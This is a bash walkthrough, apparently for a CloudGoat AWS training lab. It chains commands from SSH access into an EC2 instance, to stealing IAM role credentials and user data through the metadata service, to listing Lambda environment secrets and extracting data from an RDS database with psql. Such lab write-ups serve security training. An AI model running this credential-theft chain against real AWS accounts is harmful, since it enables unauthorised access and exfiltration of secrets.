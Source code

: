 ```bash
# check EC2 instances in the AWS account that we can use this SSH Key Pair against.
aws ec2 describe-instances \
    --query "Reservations[*].Instances[*].[KeyName,PublicIpAddress,Tags]" \
    --output text \
    --profile $SRC_PROFILE

# there is one EC2 instance that uses this SSH Key Pair. SSH into the EC2 instance -
chmod 400 private-key
ssh -i private-key ubuntu@<PUBLIC_IP_OF_EC2_INSTANCE>


# SSH into the SSH instance.
# two successful ways to find secret strings stored in a secure RDS database.


#### Route 2.1

# have the access to EC2 instance, use the IMDS service to do further enumeration.
# IMDS can be used to access user data that is specified when launching an EC2 instance. User Data tends to have sensitive information.
curl https://169.254.169.254/latest/user-data
# The User Data on the EC2 contains set of commands to connect to RDS instance from the EC2 instance.
# The command contains the credentials and endpoint for RDS Instance.
# The file also reveals the secret that is stored on the RDS instance.


#### Route 2.2

# It is a common practice to attach IAM roles to EC2 instances.
# Using this IAM roles the EC2 instance can interact with other AWS services in the AWS account.
# Any overly permissive IAM role can lead to privilege escalation.

# try and steal IAM Role credentials using IMDS.
curl -s https://169.254.169.254/latest/meta-data/iam/security-credentials
curl -s https://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-<CLOUDGOAT_ID>

# The IAM role credentials we have stolen can be used like any other IAM identity credentials.
# the IAM role credentials are short lived and have a session token.
# The session token has to be manually added to the profile in the file `~/.aws/credentials` as `aws_session_token`.
aws configure --profile stolen-creds

# use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script
python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN
# Notice that the IAM role has some Lambda related permissions.

# list all the Lambda functions in the AWS account.
aws lambda list-functions --profile stolen-creds

# One of the Lambda functions has RDS instance database credentials in the environmant variables.

# Now that we have all the information required to connect to the target RDS instance
# use any PostgreSQL client to connect to the database and extract the secrets,
# In this case, using `psql`, a command line PostgreSQL client -

sudo apt install postgresql-client
psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin


# Once connected to the database, we can use commands to extract the secrets.
```